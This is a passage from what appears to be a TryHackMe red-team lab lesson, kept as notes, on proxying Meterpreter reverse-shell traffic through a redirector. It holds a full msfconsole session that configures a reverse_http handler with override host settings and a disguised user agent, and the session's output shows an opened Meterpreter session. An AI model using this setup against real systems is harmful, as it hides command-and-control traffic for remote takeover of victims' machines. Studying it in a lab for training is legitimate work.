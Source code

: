 Next, we need to set up OverrideLHOST - This value will be your redirector's IP Address or Domain Name. After that, we need to set the OverrideLPORT; this will be the port that theÂ HTTPÂ _or_Â HTTPS is running on, on your Redirector. Lastly, we must set the OverrideRequestHost to true. This will makeÂ MeterpreterÂ respond with the OverrideHost information, so all queries go through the Redirector and not yourÂ C2Â server. Now that you understand what must be configured, let's dive into it:

MetasploitRedirector

```shell-session
root@kali$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
OverrideLHOST => 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:8080
[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500

```

After this has all been set up, running yourÂ MeterpreterÂ Reverse Shell should nowÂ proxyÂ all communications through your Redirector! For awareness, the diagram below is how our Redirector is set up in our lab; as a reminder, in engagements, you will want to useÂ **multiple**Â hosts andÂ DNSÂ records instead of IP Addresses.Â 

Â ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/267a18249f3b9f9ad07e0b9e429bd942.png)
Â 
![Pasted image 20250512131444.png](../../../IMAGES/Pasted%20image%2020250512131444.png)
